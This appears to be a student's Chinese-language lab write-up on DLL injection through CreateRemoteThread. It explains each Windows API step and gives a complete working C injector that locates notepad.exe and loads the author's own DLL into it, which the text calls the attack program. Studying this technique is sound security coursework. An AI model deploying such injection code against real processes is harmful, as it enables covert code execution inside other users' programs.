

# 远程线程方式注入DLL

## 1、查文档，研究远程线程方式注入dll的实例代码的**实现原理**。

### 关键函数：

[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)

~~~c
HANDLE h;
PROCESSENTRY32 procSnapshot;
h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
procSnapshot.dwSize = sizeof(PROCESSENTRY32);

if (!Process32First(h, &procSnapshot)) {
    puts("Process32First Error"); // show cause of failure
    CloseHandle(h);          // clean the snapshot object
    return(FALSE);
}
~~~

[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)

[遍历进程示例](https://docs.microsoft.com/zh-cn/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)

~~~c
//遍历所有进程：根据进程名找到进程id
do
{
    char s[1000];
    strcpy(s, (char*)procSnapshot.szExeFile);
    //printf("%s id:%d return:%d\n", s, procSnapshot.th32ProcessID, strcmp(s, pname));
    if (!strcmp(s, pname))
    {
        DWORD pid = procSnapshot.th32ProcessID;
        CloseHandle(h);
        #ifdef _DEBUG
        printf("[+] PID found: %ld\n", pid);
        #endif
        return pid;
    }
} while (Process32Next(h, &procSnapshot));

CloseHandle(h);
~~~

[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)

~~~c
//获取指定id进程的对象
// Get process handle passing in the process ID
HANDLE hProcess = OpenProcess(
    PROCESS_QUERY_INFORMATION |
    PROCESS_CREATE_THREAD |
    PROCESS_VM_OPERATION |
    PROCESS_VM_WRITE,
    FALSE, dwProcessId);//dwProcessId为要打开的进程对象的id
if (hProcess == NULL)
{
    printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
    return(1);
}
~~~

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

~~~c
// Calculate the number of bytes needed for the DLL's pathname
DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
//为远程进程分配虚拟地址空间，空间大小为dll绝对路径名需要的byte数
// Allocate space in the remote process for the pathname
LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
if (pszLibFileRemote == NULL)
{
	printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
	return(1);
}
~~~

[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

~~~c
//向远程进程地址空间中写入刚才分配的虚拟地址空间
// Copy the DLL's pathname to the remote process address space
DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
if (n == 0)
{
	printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
	return(1);
}
~~~

[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

~~~c
//获取kernel32.dll中函数LoadLibraryW的地址
// Get the real address of LoadLibraryW in Kernel32.dll
PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
if (pfnThreadRtn == NULL)
{
    printf(TEXT("[-] Error: Could not find LoadLibraryW function inside kernel32.dll library.\n"));
    return(1);
}
~~~

[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

~~~c
//在刚才获取到的LoadLibraryW的地址中创建远程线程（远程是跨进程的意思），将传入的dll绝对路径注入
// Create a remote thread that calls LoadLibraryW(DLLPathname)
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
if (hThread == NULL)
{
    printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
    return(1);
}
else
    printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));
~~~

最后清理

~~~c
// Wait for the remote thread to terminate
WaitForSingleObject(hThread, INFINITE);

// Free the remote memory that contained the DLL's pathname and close Handles
if (pszLibFileRemote != NULL)
	VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

if (hThread != NULL)
	CloseHandle(hThread);

if (hProcess != NULL)
	CloseHandle(hProcess);
~~~

## 2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。

### 代码

~~~c
#pragma warning(disable:4996)
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD findPidByName(char * pname)
{
	HANDLE h;
	PROCESSENTRY32 procSnapshot;
	h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	procSnapshot.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(h, &procSnapshot)) {
		puts("Process32First Error"); // show cause of failure
		CloseHandle(h);          // clean the snapshot object
		return(FALSE);
	}

	do
	{
		char s[1000];
		strcpy(s, (char*)procSnapshot.szExeFile);
		//printf("%s id:%d return:%d\n", s, procSnapshot.th32ProcessID, strcmp(s, pname));
		if (!strcmp(s, pname))
		{
			DWORD pid = procSnapshot.th32ProcessID;
			CloseHandle(h);
#ifdef _DEBUG
			printf("[+] PID found: %ld\n", pid);
#endif
			return pid;
		}
	} while (Process32Next(h, &procSnapshot));

	CloseHandle(h);
	return 0;
}

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		printf(TEXT("[-] Error: Could not find LoadLibraryW function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}

int main() {
	DWORD pid = findPidByName("notepad.exe");
	if (pid != 0) {
		demoCreateRemoteThreadW(L"C:\\Users\\guoyi\\source\\repos\\CreateThread\\Debug\\baseLib.dll", pid);
	}
	getchar();
	return 0;
}
~~~

必须运行32位notepad.exe的进程，它在C:\Windows\SysWow64下面，使用管理员权限运行dllinjection.exe，结果：

## 3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

~~~c
//根据进程名得到pid
DWORD findPidByName(char * pname)
{
	HANDLE h;
	PROCESSENTRY32 procSnapshot;
	h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	procSnapshot.dwSize = sizeof(PROCESSENTRY32);

	if (!Process32First(h, &procSnapshot)) {
		puts("Process32First Error"); // show cause of failure
		CloseHandle(h);          // clean the snapshot object
		return(FALSE);
	}

	do
	{
		char s[1000];
		strcpy(s, (char*)procSnapshot.szExeFile);
		//printf("%s id:%d return:%d\n", s, procSnapshot.th32ProcessID, strcmp(s, pname));
		if (!strcmp(s, pname))
		{
			DWORD pid = procSnapshot.th32ProcessID;
			CloseHandle(h);
#ifdef _DEBUG
			printf("[+] PID found: %ld\n", pid);
#endif
			return pid;
		}
	} while (Process32Next(h, &procSnapshot));

	CloseHandle(h);
	return 0;
}
~~~

运行及结果在问题2